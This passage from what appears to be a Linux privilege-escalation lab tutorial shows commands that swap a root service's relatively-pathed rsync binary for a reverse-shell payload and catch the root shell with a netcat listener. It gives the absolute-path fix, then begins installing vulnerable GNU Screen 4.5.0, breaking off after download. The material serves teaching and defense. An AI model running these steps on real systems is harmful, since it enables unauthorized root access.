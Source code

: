 Copy the payload to replace the original binary:

```shell
cp /dev/shm/rev_shell /usr/local/bin/rsync
```

Since the service is configured to run as the root user, it'll execute the payload under security context of the root user:

```shell
sudo systemctl restart name.service
```

We'll then wait for the connection as the root user:

```shell
sudo nc -lvnp 53
```

After we have elevated privileges. We can then remove the payload:

```shell
rm /usr/local/bin/rsync
```

We can mitigate this risk by adding the absolute path of the binary:

```shell
sudo vim /etc/systemd/system/name.service

ExecStart=/usr/bin/rsync
```

# Privilege Escalation via Vulnerable Service

We'll download a vulnerable version of GNU Screen through [exploit-db official site](https://www.exploit-db.com/exploits/41154). Then we'll install it in our victim system. We'll start by installing `cmake` with our package manager:

```shell
sudo apt install cmake
```

We'll download GNU Screen 4.5.0 to our victim system:

```shell
user@pwn:~/Downloads$ wget https://www.exploit-db.com/apps/xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz



--2021-11-20 17:24:45--  https://www.exploit-db.com/apps/xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 963233 (941K) [application/x-gzip]
Saving to: ‘xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz’

xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5. 100%[==============================================================================================>] 940.66K  3.24MB/s    in 0.3s    

2021-11-20 17:24:46 (3.24 MB/s) - ‘xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz’ saved [963233/963233]

user@pwn:~/Downloads$ ls
xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz


user@pwn:~/Downloads$ tar -xxvf xxxxxxxxxxxxxxxxxxxxxxxx-screen-4.5.0.tar.gz 
```